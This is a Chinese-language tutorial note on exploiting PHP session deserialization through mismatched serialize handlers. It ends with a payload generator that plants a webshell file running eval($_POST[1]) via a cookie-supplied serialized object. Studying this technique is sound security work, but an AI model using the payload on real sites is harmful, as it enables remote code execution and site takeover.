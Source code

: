 前置知识：
     当我们写 $_SESSION['meng'] = 'meng'; 的时候，服务器会在它的一个目录下创建一个文件，文件的内容是：a:1:{s:4:"meng";s:4:"meng";}这就看出来了，服务器在存储我们的session内容的时候，是将session进行了序列化存储在文件当中，然后当我们需要用到session里面的内容的时候，服务器从存储序列化后session的文件中取出相关内容，然后进行反序列化。


```
ini_set('session.serialize_handler', 'php') 时的Session文件内容例：user|s:3:"xxx";

ini_set('session.serialize_handler', 'php_serialize') 时的Session文件内容例：a:1:{s:4:"user";s:3:"xxx";}
```

^
## **session反序列化利用**    
php(php<5.5.4默认):存储方式是，键名+竖线+经过serialize()函数序列处理的值
```php
meng|s:4:"meng";
```

php_serialize(php>5.5.4默认):存储方式是，经过serialize()函数序列化处理的值 
```php
a:1:{s:4:"meng";s:4:"meng";}
```
如果一个php程序，这两种模式都有使用，那么就是利用两者序列化时和反序列化时的差异，实现反序列化恶意的串。


^
一般情况下默认是php_serialize模式存储session。
如果在某处正好使用的第一种php模式下，|后的数据被作为session的内容，当session开启被触发时，会对这个内容反序列化。

如何这个session的内容可控，我们就可以传入恶意的序列化串。
先是php_serialize模式存储session序列化，然后php模式反序列化。
如:
```
设置键为test的session内容：
$_SESSION['test']='|O:1:"M":1:{s:1:"a";s:4:"hihi";}';
php_serialize模式序列化的，此时seesion文件内容：
a:1:{s:4:"test";s:32:"|O:1:"M":1:{s:1:"a";s:4:"hihi";}";}

此时设置php模式，并触发反序列化。
ini_set('session.serialize_handler','php');
session_start();
则反序列化的数据为|后面的
O:1:"M":1:{s:1:"a";s:4:"hihi";}
```

^
可控session场景：
```
$_SESSION['limit']=base64_decode($_COOKIE['limit']);
```
设置session内容时，前面加个|即可。
```
<?php
    class User{
        public $username;
        public $password;
        function __construct($username,$password){
            $this->username = $username;
            $this->password = $password;
        }
        function __destruct(){
            file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
        }
    }
    $a = new User('1.php','<?php eval($_POST[1]);phpinfo();?>');
    echo base64_encode('|'.serialize($a));
?>
```